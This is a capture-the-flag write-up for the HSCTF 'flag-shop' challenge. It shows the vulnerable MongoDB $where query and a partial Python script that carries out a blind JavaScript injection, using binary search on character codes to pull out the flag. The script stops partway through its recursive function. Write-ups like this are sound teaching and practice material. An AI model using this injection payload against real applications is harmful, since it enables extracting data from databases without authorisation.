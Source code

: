 ```yaml
---
title: HSCTF
description: Writeups for HSCTF
published: true
layout: default
---
```


# flag-shop

## Description

hsctf p2w confirmed?

Files: [flag-shop.zip](https://hsctf-10-resources.storage.googleapis.com/uploads/df88d268088ef2d91124e94d9a5ac5990bc08e3bfad8e2fc1c5c552e4bcf574e/flag-shop.zip)

## Solution

Looking through the source you could inject javascript into the query which would help you find the flag:

```js
"$where": f"this.challenge.includes('{request.json['search']}')"
```

The method I used was comparing the char values and use binary search to quicky find the flag:

```python
import requests
import time

url = 'http://flag-shop.hsctf.com/api/search'

headers = {'Content-type': 'application/json'}

current = ""

def check(req):
        return len(req.json()['results']) > 0 and {"challenge": "flag-shop", "price": 10} in req.json()['results']

def checkAndReduce(x,y,index):
        print(x,y)

        if x==y:
                return chr(int(x))

        mid = (y-x)/2

        if not int(mid)==mid:
                mid = mid - 0.5

        start1 = x
        end1 = x + mid
        start2 = end1+1
        end2 = y

        req = requests.post(url, json={'search': f"') && (this.flag.charCodeAt({index})>={start1} && this.flag.charCodeAt({index})<={end1} && '1' == '1"})

        if check(req):
                return checkAndReduce(start1,end1,index)
```